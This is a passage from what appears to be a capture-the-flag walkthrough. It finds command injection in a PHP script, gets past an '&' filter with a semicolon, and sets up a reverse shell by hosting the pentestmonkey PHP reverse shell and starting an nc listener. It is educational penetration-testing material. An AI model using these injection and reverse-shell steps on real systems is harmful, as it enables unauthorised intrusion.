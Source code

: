 ![screenshot](/assets/images/mumbai_testphp3.PNG)

No beans. :( But fear not, as we have a couple of other tricks up our sleeves before moving onto some other attack vector. As it stands, it seems there is also some str_replace() or preg_replace() or other kind of filtering going on with the php script. It should look more or less something like this on the backend in pseudcode:

```php
<?php
$query = $_POST["query"];
if we receive a $_POST["query"] {
	check for "&" in the request and replace it with a null value if it's found;
	echo "Site Keywords and Counts:";
	system("python3 keywords.py --query $query");
}
else {
	echo "Please POST a propery query. ex: https://caffeinatedengineers.com"
}
?>
```

PHP isn't my strongest language, but you get the idea. It's pseudocode....doesn't mean it has to be correct :P

So what do we need to do? We can keep fuzzing for escape sequences, or we can move onto something else. I feel like we're onto something here, so let's try escaping with a semi-colon next.

![screenshot](/assets/images/mumbai_testphprce.PNG)

Excellent! We have RCE. So now all we need to do is get a shell. Typically I try to stick to port 80, 443, or 8080 for reverse shells as these ports are commonly allowed outbound through firewalls. That isn't an end-all-be-all solution, but for the majority of challenges that seems to work in the event a firewall or some other ACL is in place. However, keep in mind we will be unable to pass a command to test.php that has the "&" character in the query, so we will have to drop an artifact of some sort. 

In instances like this one, normally I would like to just live off the land and use binaries already present on a system to achieve a reverse shell; however, the replacement of the "&" character makes it very cumbersome to do that as we would need it to redirect stdin & stdout over the same file descriptors for stability. In this case, I will wget the pentestmonkey php-reverse-shell script with changes to the IP and PORT variables, and simply run "php shell.php" for the shell.  

In one terminal, host shell.php after modifications:
```bash
cp /usr/share/webshells/php/php-reverse-shell.php
python -m SimpleHTTPServer 80
```

In another terminal, listen on port 443:
```bash
nc -lvnp 443
```
